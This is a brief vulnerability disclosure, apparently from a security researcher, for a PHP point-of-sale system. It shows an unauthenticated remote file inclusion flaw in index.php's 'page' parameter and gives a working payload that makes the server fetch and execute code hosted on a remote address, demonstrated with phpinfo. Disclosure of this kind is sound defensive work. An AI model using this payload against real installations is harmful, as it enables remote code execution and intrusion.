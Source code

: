 # Best pos management system in php V1.0 - Remote files containing vulnerabilities can lead to arbitrary code execution

### You do not need to log in and open the website storage directory

Supplier:https://www.sourcecodester.com/php/16127/best-pos-management-system-php.html

http://localhost/index.php?page=   ----->    'page' can control some page parameters

Vulnerability location: index.php in the root directory of the website.

![1](/img/Best-pos-management-system-in-php/1.png)

Create 1.php on the remote server with the following content and enable the HTTP service

```php
<?php
phpinfo();
```

![2](/img/Best-pos-management-system-in-php/2.png)

Send a GET request to the target server with the following attack payload

Payload:index.php?page=http://Remote_address/1

![3](/img/Best-pos-management-system-in-php/3.png)
![4](/img/Best-pos-management-system-in-php/4.png)

Successfully executed phpinfo function!!!